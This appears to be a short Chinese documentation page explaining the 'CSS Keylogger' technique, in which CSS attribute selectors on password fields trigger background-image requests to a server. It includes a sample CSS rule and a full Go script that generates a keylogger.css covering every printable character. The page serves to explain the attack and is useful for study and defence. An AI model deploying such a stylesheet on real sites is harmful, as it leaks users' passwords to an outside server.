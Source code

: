 # CSS 键盘记录器

[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging) 利用 CSS 属性选择器，可以在加载背景图像的前提下从外部服务器请求资源。

这种攻击非常简单。
例如，下面的 css 将选择类型等于 password 的所有输入的值和以。然后它会尝试加载一个来自 http://localhost:3000/a 的图片。

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

使用简单的脚本可以创建一个 css 文件，该文件将为每个 ASCII 字符发送自定义请求

```go
package main

import (
	"fmt"
	"log"
	"net/url"
	"os"
)

func main() {
	fmt.Println("Building keylogger.css")

	output, err := os.Create("./css-keylogger-extension/keylogger.css")
	if err != nil {
		log.Fatal("Cannot create output", err)
	}
	defer output.Close()
	for c := 32; c < 128; c++ {
		value := fmt.Sprintf("%c", c)
		urlValue := url.QueryEscape(value)

		if value == `"` {
			value = `\"`
		} else if value == `}` {
			value = `\\}`
		} else if value == `\` {
			value = `\\`
		}
		fmt.Fprintf(output, `input[type="password"][value$="%v"] { background-image: url("http://localhost:3000/%v"); }`, value, urlValue)
		fmt.Fprintf(output, "\n")
	}
	fmt.Println("Complete.")
}
```

<div style="float: right">更新时间: {docsify-updated}</div>
